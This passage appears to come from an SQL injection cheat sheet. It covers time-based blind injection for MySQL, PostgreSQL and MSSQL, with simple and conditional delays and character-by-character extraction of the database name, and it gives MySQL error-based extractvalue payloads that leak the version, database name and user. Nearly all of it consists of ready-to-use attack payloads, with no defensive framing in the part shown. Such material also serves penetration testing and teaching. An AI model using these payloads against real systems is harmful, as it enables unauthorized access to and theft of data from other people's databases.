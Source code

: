 ## Time-Based Blind Injection {#time-based}

Time-based blind injection uses time delays to determine if injected conditions are true or false.

### Basic Time-Based Testing

#### 1. Simple Time Delays
```sql
-- MySQL time delays
' AND sleep(5)-- 
' AND (SELECT sleep(5))-- 

-- PostgreSQL time delays
' AND pg_sleep(5)-- 

-- MSSQL time delays
' AND WAITFOR DELAY '00:00:05'-- 
```

#### 2. Conditional Time Delays
```sql
-- Conditional sleep
' AND (SELECT CASE WHEN (1=1) THEN sleep(5) ELSE 0 END)-- 
' AND (SELECT CASE WHEN (length(database())>5) THEN sleep(5) ELSE 0 END)-- 
```

### Advanced Time-Based Techniques

#### 1. Character-by-Character with Time
```sql
-- Extract character with time delay
' AND (SELECT CASE WHEN (ascii(substring(database(),1,1))>97) THEN sleep(5) ELSE 0 END)-- 
' AND (SELECT CASE WHEN (ascii(substring(database(),1,1))>98) THEN sleep(5) ELSE 0 END)-- 
```

#### 2. Multiple Condition Testing
```sql
-- Test multiple conditions
' AND (SELECT CASE WHEN (length(database())>5 AND ascii(substring(database(),1,1))>97) THEN sleep(5) ELSE 0 END)-- 
```

## Error-Based Injection {#error-based}

Error-based injection exploits database error messages to extract information.

### MySQL Error-Based Techniques

#### 1. Extractvalue Function
```sql
-- Extract database information
' AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))-- 
' AND extractvalue(1,concat(0x7e,(SELECT database()),0x7e))-- 
' AND extractvalue(1,concat(0x7e,(SELECT user()),0x7e))-- 
```
